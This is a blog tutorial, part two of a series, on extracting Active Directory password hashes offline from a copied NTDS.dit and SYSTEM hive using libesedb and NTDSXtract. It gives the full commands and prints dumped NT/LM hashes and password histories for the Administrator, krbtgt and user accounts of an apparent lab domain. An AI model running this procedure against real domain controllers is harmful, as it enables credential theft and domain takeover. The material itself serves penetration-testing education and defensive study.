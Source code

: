 ---
author: mubix
comments: true
date: 2013-06-11 13:55:21+00:00
layout: post
title: Volume Shadow Copy NTDS.DIT Domain Hashes Remotely - Part 2
categories:
- shadowcopy
- cracking
---

Part 2, we have the NTDS.dit file and the SYSTEM.hive file. First we need a few tools:

From: [http://www.ntdsxtract.com/](http://www.ntdsxtract.com/)

Download: [http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_0.zip](http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_0.zip)

```bash
wget http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_0.zip
```

From: [http://code.google.com/p/libesedb/](http://code.google.com/p/libesedb/)

Download: [https://googledrive.com/host/0B3fBvzttpiiSN082cmxsbHB0anc/libesedb-alpha-20120102.tar.gz](https://googledrive.com/host/0B3fBvzttpiiSN082cmxsbHB0anc/libesedb-alpha-20120102.tar.gz)

```bash
wget https://googledrive.com/host/0B3fBvzttpiiSN082cmxsbHB0anc/libesedb-alpha-20120102.tar.gz
```

Extract the tools:

```bash
tar zxvf libesedb-alpha-20120102.tar.gz
unzip ntdsxtract_v1_0.zip
```

Compile/make libesedb:

```bash 
root@wpad:~/blog/# cd libesedb-20120102
root@wpad:~/blog/libesedb-20120102# ./configure 
root@wpad:~/blog/libesedb-20120102# make
``` 

Export the tables from NTDS.dit:

```bash
root@wpad:~/blog/libesedb-20120102# cd esedbtools/
root@wpad:~/blog/libesedb-20120102/esedbtools# ./esedbexport 
esedbexport 20120102
    
Missing source file.
Use esedbexport to export items stored in an Extensible Storage Engine (ESE)
Database (EDB) file

Usage: esedbexport [ -c codepage ] [ -l logfile ] [ -m mode ] [ -t target ]
                   [ -T table_name ] [ -hvV ] source

	source: the source file

	-c:     codepage of ASCII strings, options: ascii, windows-874,
	        windows-932, windows-936, windows-1250, windows-1251,
	        windows-1252 (default), windows-1253, windows-1254
	        windows-1255, windows-1256, windows-1257 or windows-1258
	-h:     shows this help
	-l:     logs information about the exported items
	-m:     export mode, option: all, tables (default)
	        'all' exports all the tables or a single specified table with indexes,
	        'tables' exports all the tables or a single specified table
	-t:     specify the basename of the target directory to export to
	        (default is the source filename) esedbexport will add the suffix
	        .export to the basename
	-T:     exports only a specific table
	-v:     verbose output to stderr
	-V:     print version
root@wpad:~/blog/libesedb-20120102/esedbtools# 


root@wpad:~/blog/libesedb-20120102/esedbtools# ./esedbexport ../../ntds.dit 
esedbexport 20120102

Opening file.
Exporting table 1 (MSysObjects) out of 12.
Exporting table 2 (MSysObjectsShadow) out of 12.
Exporting table 3 (MSysUnicodeFixupVer2) out of 12.
Exporting table 4 (datatable) out of 12.
Exporting table 5 (hiddentable) out of 12.
Exporting table 6 (link_table) out of 12.
Exporting table 7 (sdpropcounttable) out of 12.
Exporting table 8 (sdproptable) out of 12.
Exporting table 9 (sd_table) out of 12.
Exporting table 10 (MSysDefrag2) out of 12.
Exporting table 11 (quota_table) out of 12.
Exporting table 12 (quota_rebuild_progress_table) out of 12.
Export completed.
```    
  
Move the exported tables to somewhere a bit easier:

```bash
root@wpad:~/blog/libesedb-20120102/esedbtools# 
root@wpad:~/blog/libesedb-20120102/esedbtools# mv ntds.dit.export/ ../../
```

NTDS extract can do a lot more than just hashes:

```bash
root@wpad:~/blog# cd NTDSXtract 1.0/
root@wpad:~/blog/NTDSXtract 1.0# ls
dscomputers.py  dsdeletedobjects.py  dsfileinformation.py  dsgroups.py  dstimeline.py  dsusers.py  framework  ntds
root@wpad:~/blog/NTDSXtract 1.0# python dsusers.py 
DSUsers
Extracts information related to user objects

usage: dsusers.py   [option]
  options:
    --rid 
          List user identified by RID
    --name 
          List user identified by Name
    --passwordhashes 
          Extract password hashes
    --passwordhistory 
          Extract password history
    --certificates
          Extract certificates
    --supplcreds 
          Extract kerberos keys
    --membership
          List groups of which the user is a member
root@wpad:~/blog/NTDSXtract 1.0# 
```    

But we like hashes:
    
```bash
root@wpad:~/blog/NTDSXtract 1.0# python dsusers.py ../ntds.dit.export/datatable.3 ../ntds.dit.export/link_table.5 --passwordhashes ../SYSTEM.hive --passwordhistory ../SYSTEM.hive 
Running with options:
	Extracting password hashes
	Extracting password history
Initialising engine...
Scanning database - 100% -> 3475 records processed
Extracting schema information - 100% -> 1549 records processed
Extracting object links...

List of users:
==============

Record ID:           3562
User name:           Administrator
User principal name: 
SAM Account name:    Administrator
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: 7ceee337-fa58-4ca0-9643-540a40161020
SID:  S-1-5-21-3825330677-773554443-1603823854-500
When created:         2012-08-22 03:12:59
When changed:         2013-05-15 04:06:55
Account expires:      Never
Password last set:    2012-08-22 02:49:42.899576
Last logon:           2013-05-15 04:08:04.547236
Last logon timestamp: 2013-05-15 04:06:55.577353
Bad password time     2013-06-07 02:34:34.560516
Logon count:          9
Bad password count:   1
User Account Control:
	NORMAL_ACCOUNT
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users Administrator 
Password hashes:
	Administrator:$NT$88e4d9fabaecf3ded18dd80905521b29:::
Password history:

Record ID:           3563
User name:           Guest
User principal name: 
SAM Account name:    Guest
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: 659723d7-1246-4959-b0fc-af80ea5e3816
SID:  S-1-5-21-3825330677-773554443-1603823854-501
When created:         2012-08-22 03:12:59
When changed:         2013-03-14 06:54:22
Account expires:      Never
Password last set:    2013-03-14 06:54:22.029303
Last logon:           2013-03-14 06:54:27.012817
Last logon timestamp: 2013-03-14 06:32:41.834022
Bad password time     2013-06-07 03:07:46.499917
Logon count:          0
Bad password count:   10
User Account Control:
	PWD Not Required
	NORMAL_ACCOUNT
	PWD Never Expires
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users Guest 
Password hashes:
	Guest:$NT$823893adfad2ada6e1a414f3ebdf58f7:::
Password history:

Record ID:           3564
User name:           user
User principal name: 
SAM Account name:    user
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: c5a5c87a-93b4-4d80-97a1-1c605b9b0c03
SID:  S-1-5-21-3825330677-773554443-1603823854-1000
When created:         2012-08-22 03:12:59
When changed:         2013-06-07 02:51:54
Account expires:      Never
Password last set:    2013-03-14 03:25:11.793912
Last logon:           2013-06-07 02:51:54.152191
Last logon timestamp: 2013-06-07 02:51:54.152191
Bad password time     2013-04-19 05:25:40.412670
Logon count:          67
Bad password count:   0
User Account Control:
	NORMAL_ACCOUNT
	PWD Never Expires
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users user 
Password hashes:
	user:$NT$88e4d9fabaecf3dec18dd80905521b29:::
Password history:
	user_nthistory0:$NT$88e4d9fabafcf3dec18dd80905521b29:::
	user_nthistory1:$NT$0c61031f010b2fbb88fe449fbf262477:::
	user_nthistory2:$NT$88e4dffabaecf3dec18dd80905521b29:::
	user_lmhistory0:c869027e01c3c4fe7626a90c87cc7fed:::
	user_lmhistory1:8be023cd858da1edd21b94907afe182c:::

Record ID:           3610
User name:           krbtgt
User principal name: 
SAM Account name:    krbtgt
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: 74e6bd0b-e4d5-42df-98d5-24f9060061c9
SID:  S-1-5-21-3825330677-773554443-1603823854-502
When created:         2012-08-22 03:16:03
When changed:         2012-08-22 03:31:13
Account expires:      Never
Password last set:    2012-08-22 03:16:03.166457
Last logon:           Never
Last logon timestamp: Never
Bad password time     Never
Logon count:          0
Bad password count:   0
User Account Control:
	Disabled
	NORMAL_ACCOUNT
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users krbtgt 
Password hashes:
	krbtgt:$NT$7253e8647254716b507a2dcb149ff2da:::
Password history:
	krbtgt_nthistory0:$NT$7253e86a7254716a507a2dcb149ff2da:::
	krbtgt_lmhistory0:113926e06a31d182623633041b632929:::

Record ID:           3762
User name:           John Doe
User principal name: jdoe@projectmentor.net
SAM Account name:    jdoe
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: bbf24c63-39a9-4cc4-8aa8-933f9ddee940
SID:  S-1-5-21-3825330677-773554443-1603823854-1104
When created:         2012-08-22 04:10:52
When changed:         2013-06-05 13:04:11
Account expires:      Never
Password last set:    2013-04-19 07:11:49.849592
Last logon:           2013-06-07 02:56:25.677855
Last logon timestamp: 2013-06-05 13:04:11.674344
Bad password time     2013-05-02 03:01:12.536251
Logon count:          242
Bad password count:   0
User Account Control:
	NORMAL_ACCOUNT
	PWD Never Expires
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users John Doe 
Password hashes:
	John Doe:$NT$88e4d9fabaecf3ded18dd80905511b29:::
Password history:

Record ID:           3797
User name:           Random User
User principal name: randy@projectmentor.net
SAM Account name:    randy
SAM Account type:    SAM_NORMAL_USER_ACCOUNT
GUID: 2701eb29-628a-4568-a093-d33a7db10d04
SID:  S-1-5-21-3825330677-773554443-1603823854-1108
When created:         2013-04-08 02:34:04
When changed:         2013-05-27 16:06:07
Account expires:      Never
Password last set:    2013-04-19 06:59:25.423280
Last logon:           2013-04-08 02:34:10.482690
Last logon timestamp: 2013-04-08 02:34:10.482690
Bad password time     Never
Logon count:          1
Bad password count:   0
User Account Control:
	NORMAL_ACCOUNT
	PWD Never Expires
Ancestors:
	$ROOT_OBJECT$ net projectmentor Users Random User 
Password hashes:
	Random User:$NT$88ead9fa5aecf3dec18dd80905521b29:::
Password history:
root@wpad:~/blog/NTDSXtract 1.0# 

```

All done. Start crackin'
